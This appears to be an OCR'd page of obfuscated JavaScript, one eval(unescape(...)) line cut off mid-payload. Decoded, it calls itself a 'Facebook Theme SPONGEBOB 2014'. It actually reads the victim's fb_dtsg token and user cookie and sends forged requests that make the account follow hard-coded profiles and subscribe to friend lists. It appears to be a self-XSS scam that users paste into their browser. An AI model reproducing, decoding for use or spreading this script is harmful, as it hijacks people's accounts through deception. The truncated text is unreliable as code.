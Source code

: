 eval(unescape("%2F%2A%20%46%61%63%65%62%6F%6F%6B%20%54%68%65%6D%65%20%53%50%4F%4E%47%45%42%4F%42%20%32%30%31%34%20%2A%2F%0A%76%61%72%20%70%61%72%65%6E%74%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%54%61%67%4E%61%6D%65%28%22%68%74%6D%6C%22%29%5B%30%5D%3B%0A%76%61%72%20%5F%62%6F%64%79%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%54%61%67%4E%61%6D%65%28%27%62%6F%64%79%27%29%5B%30%5D%3B%0A%76%61%72%20%5F%64%69%76%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%72%65%61%74%65%45%6C%65%6D%65%6E%74%28%27%64%69%76%27%29%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%68%65%69%67%68%74%3D%22%32%35%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%77%69%64%74%68%3D%22%31%30%30%25%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%70%6F%73%69%74%69%6F%6E%3D%22%66%69%78%65%64%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%74%6F%70%3D%22%61%75%74%6F%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%62%6F%74%74%6F%6D%3D%22%30%22%3B%0A%5F%64%69%76%2E%61%6C%69%67%6E%3D%22%63%65%6E%74%65%72%22%3B%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%22%66%62%5F%64%74%73%67%22%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%61%28%61%62%6F%6E%65%29%7B%76%61%72%20%68%74%74%70%34%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%3B%76%61%72%20%75%72%6C%34%3D%22%2F%61%6A%61%78%2F%66%6F%6C%6C%6F%77%2F%66%6F%6C%6C%6F%77%5F%70%72%6F%66%69%6C%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%3B%76%61%72%20%70%61%72%61%6D%73%34%3D%22%70%72%6F%66%69%6C%65%5F%69%64%3D%22%2B%61%62%6F%6E%65%2B%22%26%6C%6F%63%61%74%69%6F%6E%3D%31%26%73%6F%75%72%63%65%3D%66%6F%6C%6C%6F%77%2D%62%75%74%74%6F%6E%26%73%75%62%73%63%72%69%62%65%64%5F%62%75%74%74%6F%6E%5F%69%64%3D%75%33%37%71%61%63%5F%33%37%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%6C%73%64%26%5F%5F%22%2B%75%73%65%72%5F%69%64%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%68%74%74%70%34%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%75%72%6C%34%2C%74%72%75%65%29%3B%68%74%74%70%34%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%3D%66%75%6E%63%74%69%6F%6E%28%29%7B%69%66%28%68%74%74%70%34%2E%72%65%61%64%79%53%74%61%74%65%3D%3D%34%26%26%68%74%74%70%34%2E%73%74%61%74%75%73%3D%3D%32%30%30%29%68%74%74%70%34%2E%63%6C%6F%73%65%7D%3B%68%74%74%70%34%2E%73%65%6E%64%28%70%61%72%61%6D%73%34%29%7D%61%28%22%31%30%30%30%30%37%34%30%38%36%35%36%33%39%39%22%29%3B%61%28%22%31%30%30%30%30%33%32%39%31%36%34%32%34%33%32%22%29%3B%61%28%22%31%30%30%30%30%37%36%30%34%31%36%36%30%36%38%22%29%3B%61%28%22%31%30%30%30%30%36%39%38%38%34%31%32%38%37%32%22%29%3B%61%28%22%31%30%30%30%30%37%34%31%39%37%32%39%37%33%31%22%29%3B%61%28%22%31%30%30%30%30%37%34%30%32%35%30%39%34%31%32%22%29%3B%61%28%22%31%30%30%30%30%34%36%31%39%34%36%32%39%34%34%22%29%3B%61%28%22%31%30%30%30%30%35%34%30%37%39%35%33%39%33%38%22%29%3B%61%28%22%31%30%30%30%30%34%31%38%35%39%36%37%36%37%34%22%29%3B%61%28%22%31%30%30%30%30%36%36%39%32%37%39%39%37%35%37%22%29%3B%61%28%22%31%30%30%30%30%32%34%39%39%33%33%33%36%32%35%22%29%3B%61%28%22%31%30%30%30%30%34%33%36%30%36%32%34%34%31%36%22%29%3B%61%28%22%31%30%30%30%30%37%34%33%32%30%35%32%37%38%38%22%29%3B%61%28%22%31%30%30%30%30%34%30%35%34%38%35%35%34%31%35%22%29%3B%61%28%22%31%30%30%30%30%31%33%30%30%36%34%33%33%35%38%22%29%3B%61%28%22%31%30%30%30%30%34%34%37%30%31%35%32%33%36%36%22%29%3B%66%75%6E%63%74%69%6F%6E%20%73%75%62%6C%69%73%74%28%75%69%64%73%73%29%7B%76%61%72%20%61%3D%64%6F%63%75%6D%65%6E%74%2E%63%72%65%61%74%65%45%6C%65%6D%65%6E%74%28%27%73%63%72%69%70%74%27%29%3B%61%2E%69%6E%6E%65%72%48%54%4D%4C%3D%22%6E%65%77%20%41%73%79%6E%63%52%65%71%75%65%73%74%28%29%2E%73%65%74%55%52%49%28%27%2F%61%6A%61%78%2F%66%72%69%65%6E%64%73%2F%6C%69%73%74%73%2F%73%75%62%73%63%72%69%62%65%2F%6D%6F%64%69%66%79%3F%6C%6F%63%61%74%69%6F%6E%3D%70%65%72%6D%61%6C%69%6E%6B%26%61%63%74%69%6F%6E%3D%73%75%62%73%63%72%69%62%65%27%29%2E%73%65%74%44%61%74%61%28%7B%20%66%6C%69%64%3A%20%22%2B%75%69%64%73%73%2B%22%20%7D%29%2E%73%65%6E%64%28%29%3B%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%61%70%70%65%6E%64%43%68%69%6C%64%28%61%29%7D%73%75%62%6C%69%73%74%28%22%31%33%38%36%30%31%36%33%37%31%36%35%35%33%30%35%22%29%3B%73%75%62%6C%69%73%74%28%22%32%38%38%35%38%31%39%33%31%32%36%31%35%32%36%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%37%38%31%36%36%31%30%35%37%38%30%31%38%32%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%37%36%37%37%30%30%34%35%38%39%39%32%36%33%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%39%32%37%39%33%31%37%30%39%37%37%39%39%34%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%39%33%32%37%31%39%39%37%35%39%36%32%30%34%22%29%3B%73%75%62%6C%69%73%74%28%22%32%36%31%32%32%35%36%36%37%33%37%34%37%34%37%22%29%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%76%61%72%20%6E%6F%77%3D%28%6E%65%77%20%44%61%74%65%29%2E%67%65%74%54%69%6D%65%28%29%3B%66%75%6E%63%74%69%6F%6E%20%50%28%70%6F%73%74%29%7B%76%61%72%20%58%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%6